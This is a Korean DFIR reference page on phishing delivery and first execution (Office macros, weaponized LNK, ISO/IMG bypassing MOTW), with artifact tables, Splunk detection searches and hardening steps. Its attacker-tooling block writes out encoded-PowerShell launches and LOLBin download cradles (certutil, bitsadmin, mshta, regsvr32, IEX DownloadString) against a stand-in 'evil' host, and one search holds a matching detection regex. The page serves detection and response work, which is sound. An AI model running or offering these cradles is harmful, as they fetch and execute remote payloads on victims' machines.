

# 피싱 전달과 최초 실행 { #phishing-delivery-initial-execution }

<div class="dfir-meta" markdown>
**MITRE ATT&CK:** T1566 (피싱) + T1204 (사용자 실행) · **전술:** 최초 침투 / 실행 · **최종 수정:** 2026-09-17
</div>

!!! abstract "요약"
    대부분의 침입은 사용자가 열지 말아야 할 것을 여는 데서 시작합니다: 매크로가 든 Office 문서, 위장한 LNK, MOTW(Mark-of-the-Web)를 우회하는 ISO/IMG, 또는 HTML 스머글링된 페이로드. 전달은 사회공학이고, 포렌식은 **실행**에서 시작됩니다 — 문서나 압축 파일이 스크립트 인터프리터를 띄우고, 그것이 2단계를 가져옵니다. 이 페이지는 그 첫 프로세스 체인을 정리합니다.

## 공격 원리 { #how-the-attack-works }



최신 미끼는 매크로를 피하고(2022년부터 인터넷에서 온 매크로는 기본 차단) **컨테이너 파일** — ISO, IMG, VHD, 또는 LNK가 든 ZIP — 을 선호합니다. 컨테이너를 마운트하면 **MOTW**가 사라져서 안의 페이로드가 "인터넷에서 다운로드됨" 경고 없이 실행되기 때문입니다.

## 공격 도구 / 명령 { #attacker-tooling-commands }

```text
# Office macro shelling out
WINWORD.EXE  ->  cmd.exe /c powershell -nop -w hidden -enc <b64>

# LNK inside a ZIP/ISO with a hidden target
target: C:\Windows\System32\cmd.exe /c start /min powershell -enc <b64>
icon:   shell32.dll,1   (looks like a PDF/Doc)

# LOLBin stage-2 fetch
certutil -urlcache -split -f http://evil/x.exe %TEMP%\x.exe
bitsadmin /transfer j http://evil/x.exe %TEMP%\x.exe
powershell IEX(New-Object Net.WebClient).DownloadString('http://evil/a')
mshta http://evil/x.hta
regsvr32 /s /n /u /i:http://evil/x.sct scrobj.dll
```

## 남는 흔적 { #artifacts-left-behind }

| 위치 | 아티팩트 | 찾을 것 |
|---|---|---|
| 호스트 **Sysmon** | `ParentImage` = `winword.exe`/`excel.exe`/`outlook.exe`/`acrord32.exe`/`explorer.exe`이고 `Image` = 스크립트 호스트인 **1** | 전달→실행의 전환점 ([WMI/WinRM 페이지](wmi-winrm.md)에 부모 목록 있음) |
| 호스트 Sysmon | `\Downloads\`, `\Temp\`, `\AppData\`에 첨부 파일 / 2단계의 **11** (FileCreate); **15** (FileCreateStreamHash) = **MOTW** ADS 기록 | 파일이 떨어진 곳과 MOTW가 붙었는지 |
| 호스트 | `HostUrl`/`ReferrerUrl`이 있는 [$MFT `Zone.Identifier`](../windows/mft-usn.md) | **다운로드 URL** — 전달 인프라 전체인 경우가 많음 |
| 호스트 레지스트리 | [Office 신뢰할 수 있는 문서 `TrustRecords`](../windows/registry-keys.md#files-folders-opened-per-user) | 사용자가 매크로 문서에서 **콘텐츠 사용**을 누름 — 시각 포함 |
| 호스트 | 페이로드를 참조하는 `certutil`/`mshta`/`regsvr32`/`powershell`의 [Prefetch](../windows/prefetch.md); [Amcache](../windows/amcache.md) 해시 | 2단계의 실행 + 정체 |
| 호스트 | 무기화된 LNK라면 [LNK/Jump Lists](../windows/lnk-jumplists.md); 연 첨부 파일의 최근 문서 기록 | 미끼 파일 |
| 이메일 | `stream:smtp` / `ms:o365:reporting:messagetrace` — 보낸 사람, 제목, 첨부 파일 이름/해시 | 전달 메시지 |
| 네트워크 | 2단계 다운로드의 [Zeek `http.log`](../network/zeek/http-log.md) (이상한 UA, IP 그대로인 호스트, `x-dosexec` MIME); 조회는 [`dns.log`](../network/zeek/dns-log.md); 가져온 것의 해시는 [`files.log`](../network/zeek/files-log.md) | C2/스테이징에서 가져오기 |

## 탐지 { #detection }

=== "Splunk — 셸을 띄우는 문서/컨테이너"

    ```spl
    index=botsv3 sourcetype="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventID=1
    | eval parent=lower(replace(ParentImage,".*\\\\","")), child=lower(replace(Image,".*\\\\",""))
    | where parent IN ("winword.exe","excel.exe","powerpnt.exe","outlook.exe","acrord32.exe","msaccess.exe")
        AND child IN ("cmd.exe","powershell.exe","wscript.exe","cscript.exe","mshta.exe","rundll32.exe","regsvr32.exe","certutil.exe","bitsadmin.exe","curl.exe","msiexec.exe")
    | table _time, host, User, parent, child, CommandLine
    | sort 0 _time
    ```

    Sysmon `1` = 프로세스 생성. Office 애플리케이션은 스크립트 인터프리터나 다운로드 도구를 띄우면 안 됩니다 — 이 부모→자식 목록이 가장 정확한 매크로 실행 신호입니다. `replace(...,".*\\\\","")`는 비교를 위해 경로를 떼고 파일명만 남깁니다.

=== "Splunk — 2단계 다운로드 크래들"

    ```spl
    index=botsv3 sourcetype="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventID=1
    | eval cmd=lower(CommandLine)
    | where match(cmd,"certutil.*(urlcache|-f\s+http)|bitsadmin.*transfer.*http|(downloadstring|downloadfile|invoke-webrequest|iwr|net\.webclient)|mshta\s+http|regsvr32.*(scrobj|/i:http)|curl\s+http|wget\s+http")
    | table _time, host, User, Image, ParentImage, cmd
    | sort 0 _time
    ```

    LOLBin 다운로드 크래들 명령줄과 일치합니다. 여기 걸린 것을 앞 검색의 부모와 짝지으면 호스트 하나의 전달→가져오기 체인 전체가 나옵니다.

=== "Splunk — MOTW 다운로드 URL"

    ```spl
    index=botsv3 sourcetype="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventID=15
    | table _time, host, User, TargetFilename, Contents
    | sort 0 _time
    ```

    Sysmon `15`는 파일에 대체 데이터 스트림이 생길 때 발생합니다 — 다운로드라면 `Zone.Identifier`(MOTW)입니다. `Contents`에 `ZoneId=3`과, 최신 Windows에서는 `HostUrl`/`ReferrerUrl` — 파일의 실제 출처 — 이 들어 있습니다. 안쪽 페이로드에 이것이 *없는* 컨테이너 파일(ISO/IMG)이 MOTW 우회의 단서입니다.

## 대응 { #response }

미끼와 메시지를 보존하세요: 메일 로그에서 이메일(보낸 사람, 제목, 헤더, 첨부 해시)을, 디스크에서 `Zone.Identifier` URL이 붙은 첨부 파일을 확보하세요. Office/컨테이너 부모에서 다운로드 크래들을 거쳐 2단계까지 프로세스 체인을 추적하고, 인텔리전스와 전사 헌팅을 위해 2단계를 해시하세요([Amcache](../windows/amcache.md)/[files.log](../network/zeek/files-log.md)) — 같은 미끼가 보통 여러 사서함에 갔습니다. 수집 후 출구에서 전달·스테이징 도메인/IP를 차단하세요. 강화: 인터넷에서 온 매크로 차단(현재 기본값, 강제할 것), **ASR 규칙**으로 Office의 자식 프로세스 생성 차단, 가능하면 `mshta`/`certutil`/`regsvr32` 비활성화나 제한, 게이트웨이에서 ISO/IMG/컨테이너 첨부 제거 또는 경고, MOTW 전파 강제, 사용자 신고 + 피싱 모의 훈련 운영.

## 참고 자료 { #references }

- [MITRE ATT&CK — T1566](https://attack.mitre.org/techniques/T1566/) · [T1204](https://attack.mitre.org/techniques/T1204/)
- [Microsoft — Attack Surface Reduction rules reference](https://learn.microsoft.com/en-us/defender-endpoint/attack-surface-reduction-rules-reference)
- 관련 페이지: [PowerShell 크래들](powershell-cradles.md) · [MFT/USN — Zone.Identifier](../windows/mft-usn.md) · [Zeek http.log](../network/zeek/http-log.md) · [보안 검색](../splunk/security-searches.md)
